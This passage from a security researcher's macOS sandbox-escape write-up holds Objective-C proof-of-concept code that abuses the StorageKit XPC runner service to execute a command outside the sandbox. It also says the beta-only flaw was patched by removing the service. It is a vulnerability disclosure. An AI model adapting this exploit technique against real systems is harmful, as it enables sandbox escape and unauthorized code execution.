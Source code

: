 ```
@protocol SKRemoteTaskRunnerProtocol
-(void)runTask:(NSURL *)task arguments:(NSArray *)args withReply:(void (^)(NSNumber *, NSError *))reply;
@end

void exploit_storagekitfsrunner(void) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/StorageKit.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.storagekitfsrunner"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SKRemoteTaskRunnerProtocol)];
    [conn setInterruptionHandler:^{NSLog(@"connection interrupted!");}];
    [conn setInvalidationHandler:^{NSLog(@"connection invalidated!");}];
    [conn resume];
    
    [[conn remoteObjectProxy] runTask:[NSURL fileURLWithPath:@"/usr/bin/touch"] arguments:@[@"/tmp/sbx"] withReply:^(NSNumber *bSucc, NSError *error) {
        NSLog(@"run task result:%@, error:%@", bSucc, error);
    }];
}
```

Demo link: https://youtu.be/MYkdmFOUyFA

### The patch

Apple promptly resolved the vulnerability prior to releasing macOS Sonoma 14.0 by **completely removing the vulnerable XPC service** from the operating system.



## Beta-No-CVE-2

There is no CVE assigned for this vulnerability too due to the same **Beta-only** reason.

Apple just credited me in their [additional recognitions](https://support.apple.com/en-gb/120950): 

<img src="../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241019172506665.png" alt="image-20241019172506665" style="zoom:30%;" />

### The issue
